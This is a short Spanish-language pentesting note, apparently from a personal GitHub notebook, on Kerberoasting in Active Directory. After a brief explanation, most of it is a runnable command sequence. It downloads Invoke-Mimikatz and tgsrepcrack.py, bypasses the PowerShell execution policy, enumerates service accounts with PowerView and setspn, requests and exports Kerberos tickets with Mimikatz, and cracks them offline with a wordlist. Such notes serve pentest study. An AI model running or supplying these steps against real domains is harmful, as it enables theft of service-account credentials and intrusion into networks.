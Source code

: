 # Kerberoasting 

Tags: #AD #Windows #Powershell #Kerberos 

Kerberoasting es una tecnica de post explotación que permite obtener un hash de una password de una cuenta de AD que tiene un 'Service Principal Name' (SPN). Un usuario autenticado del dominio solicita a Kerberos un ticket para un SPN. El ticket es encriptado con un hash de servicio afiliado a la password del usuario con el SPN. El atacante después offline craquea la password del hash con técnicas de fuerza bruta. Una vez obtenida la credencial en texto plano, el atacante puede ingresar al sistema, dispositivos o redes de la cuenta comprometida. 

```bash 
# Descargamos la utilidad en nuestra maquina de atacante para despues pasar el archivo a la maquina victima que esta utilizando PowerShell

❯ wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1
❯ wget https://github.com/nidem/kerberoast/blob/master/tgsrepcrack.py
```

```bash 
❯ powershell -ep bypass                      # Politica que nos permite ejecutar scripts en Powershell
 	# ep = Ejecutar politicas 

❯ . .\PowerView.ps1                          # Importamos el modulo
❯ Get-NetUser | Where-Object {$_.servicePrincipalName} | fl 
❯ setspn -T research -Q */*                  # Identificar las cuentas de usuario con SPN activado
	# fl = Format List

❯ klist # Lista los tickets de Kerberos de la sesion del usuario actual 
❯ Add-Type -AssemblyName System.IdentityModel 
# Solicitar a TGS ticket para el SPN usando Kerberos
❯ New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "ops/domain.local:1434"

❯ . .\Invoke-Mimikatz.ps1         # importamos el modulo 
❯ Invoke-Mimikatz -Command '"kerberos::list /export"'     # Listara todos los tickets de Kerberos y los exportara 
```

```bash 
# Craquear la password del TGS usando Tgrepcrack en Kali
❯ python3 tgsrepcrack.py /usr/share/wordlists/rockyou.txt 1-40a1-student@ops~local.kirbi 
	# TGS ticket File = 1-40a1-student@ops~local.kirbi
```